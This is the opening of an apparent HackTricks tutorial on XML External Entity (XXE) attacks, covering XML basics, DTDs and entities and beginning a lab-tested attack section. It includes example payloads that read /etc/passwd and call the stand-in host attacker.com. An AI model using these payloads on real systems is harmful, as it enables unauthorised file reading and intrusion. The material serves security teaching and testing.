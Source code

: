 # XXE - XEE - XML External Entity

{{#include /banners/hacktricks-training.md}}

- [Dojo CTF Challenge #42 – Hex Color Palette XXE write-up](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-42)
- [lxml bug #2107279 – Parameter-entity XXE still possible](https://bugs.launchpad.net/lxml/+bug/2107279)

{{#include ../banners/hacktricks-training.md}}

## XML Basics

XML is a markup language designed for data storage and transport, featuring a flexible structure that allows for the use of descriptively named tags. It differs from HTML by not being limited to a set of predefined tags. XML's significance has declined with the rise of JSON, despite its initial role in AJAX technology.

- **Data Representation through Entities**: Entities in XML enable the representation of data, including special characters like `&lt;` and `&gt;`, which correspond to `<` and `>` to avoid conflict with XML's tag system.
- **Defining XML Elements**: XML allows for the definition of element types, outlining how elements should be structured and what content they may contain, ranging from any type of content to specific child elements.
- **Document Type Definition (DTD)**: DTDs are crucial in XML for defining the document's structure and the types of data it can contain. They can be internal, external, or a combination, guiding how documents are formatted and validated.
- **Custom and External Entities**: XML supports the creation of custom entities within a DTD for flexible data representation. External entities, defined with a URL, raise security concerns, particularly in the context of XML External Entity (XXE) attacks, which exploit the way XML parsers handle external data sources: `<!DOCTYPE foo [ <!ENTITY myentity "value" > ]>`
- **XXE Detection with Parameter Entities**: For detecting XXE vulnerabilities, especially when conventional methods fail due to parser security measures, XML parameter entities can be utilized. These entities allow for out-of-band detection techniques, such as triggering DNS lookups or HTTP requests to a controlled domain, to confirm the vulnerability.
  - `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>`
  - `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://attacker.com" > ]>`

## Main attacks

[**Most of these attacks were tested using the awesome Portswiggers XEE labs: https://portswigger.net/web-security/xxe**](https://portswigger.net/web-security/xxe)

### New Entity test

In this attack I'm going to test if a simple new ENTITY declaration is working

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```
